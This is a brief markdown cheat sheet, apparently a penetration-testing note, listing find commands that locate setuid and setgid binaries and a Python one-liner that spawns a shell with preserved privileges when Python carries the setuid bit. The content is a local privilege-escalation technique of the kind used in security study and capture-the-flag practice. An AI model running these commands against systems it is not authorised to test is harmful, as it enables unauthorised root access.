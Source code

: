 # find set(u|g)id files

## find setuid binarys

```bash
find / -perm -u=s -type f 2> /dev/null
```

## find setgid binarys

```bash
find / -perm -g=s -type f 2> /dev/null
```

# specific binarys

## suid/guid on python

```bash
python -c "import os; os.execl('/bin/sh', 'sh', '-p')"
```

